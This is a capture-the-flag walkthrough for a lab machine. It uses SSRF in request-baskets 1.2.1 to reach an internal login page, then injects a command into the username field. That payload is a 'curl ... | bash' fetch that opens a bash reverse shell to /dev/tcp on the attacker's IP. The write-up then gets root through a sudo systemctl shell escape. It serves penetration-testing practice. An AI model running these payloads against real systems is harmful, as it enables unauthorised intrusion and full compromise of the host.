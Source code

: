 ## Recon

~~~
sudo nmap -sCV 10.10.11.224
~~~

~~~
Nmap scan report for 10.10.11.224
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 08 Jul 2023 20:05:34 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 08 Jul 2023 20:05:04 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 08 Jul 2023 20:05:05 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=7/9%Time=64A9C170%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\x
SF:20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sat,\x2008\x20Jul\x202
SF:023\x2020:05:04\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/we
SF:b\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
SF:0close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x2020
SF:0\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sat,\x2008\x20Jul\x202
SF:023\x2020:05:05\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,
SF:67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\
SF:x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")
SF:%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCont
SF:ent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r
SF:\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCo
SF:nnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"H
SF:TTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20ch
SF:arset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Ke
SF:rberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nC
SF:ontent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options:
SF:\x20nosniff\r\nDate:\x20Sat,\x2008\x20Jul\x202023\x2020:05:34\x20GMT\r\
SF:nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20name
SF:\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\n
SF:")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\
SF:x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20B
SF:ad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clos
SF:e\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.69 seconds
~~~

Landing Page :

![[Pasted image 20230709022114.png]]

`Powered by [request-baskets](https://github.com/darklynx/request-baskets) | Version: 1.2.1

Found version , Checked for Vulnerabilities...!!!

https://notes.sjtu.edu.cn/s/MUUhEymt7#
Found this ..!!

For that create a basket first ,


At the same time , i have a eye on burpsuite...!!

Can see /api/baskets/basketname

![[Pasted image 20230709022421.png]]

Here i used `fuk1`  as First Basket name..!!!

Sent the POST request to `/api/baskets/fuk1`

Payload :

```
{"forward_url": "http://127.0.0.1:80/","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}
```


~~~
POST /api/baskets/fuk1 HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: null
X-Requested-With: XMLHttpRequest
Origin: http://10.10.11.224:55555
Connection: close
Referer: http://10.10.11.224:55555/web
Content-Length: 120

{"forward_url": "http://127.0.0.1:80/","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}
~~~



![[Pasted image 20230709022729.png]]

Now create another basket i named it as `fuk2`and sent a POST request to `/api/baskets/fuk2`

`with this payload`

```
{"forward_url": "http://127.0.0.1:80/login","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}
```

~~~
POST /api/baskets/fuk2 HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: null
X-Requested-With: XMLHttpRequest
Origin: http://10.10.11.224:55555
Connection: close
Referer: http://10.10.11.224:55555/web
Content-Length: 125

{"forward_url": "http://127.0.0.1:80/login","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}
~~~

![[Pasted image 20230709023230.png]]

Now send a POST request to `http://<ip>:55555/fuk2`



with payload

```
username=;`curl <local_ip>/shell | bash`'
```

![[Pasted image 20230709022650.png]]

`shell file`

![[Pasted image 20230709023547.png]]

~~~
bash -i >& /dev/tcp/10.10.14.236/6543 0>&1
~~~

Setup both python server and netcat listener

~~~
sudo python3 -m http.server <PORT>
~~~

~~~
nc -lvnp 6543
~~~

![[Pasted image 20230709023727.png]]

Can see logs, it works


Got shell as `puma

Now got User Flag..!!!

## Root

![[Pasted image 20230709024011.png]]

~~~
sudo -l
~~~

Reference Link : https://gtfobins.github.io/gtfobins/systemctl/#sudo

Got root by just running 

~~~
 /usr/bin/systemctl status trail.service
 !sh
~~~

![[Pasted image 20230709024158.png]]

Got root..!!
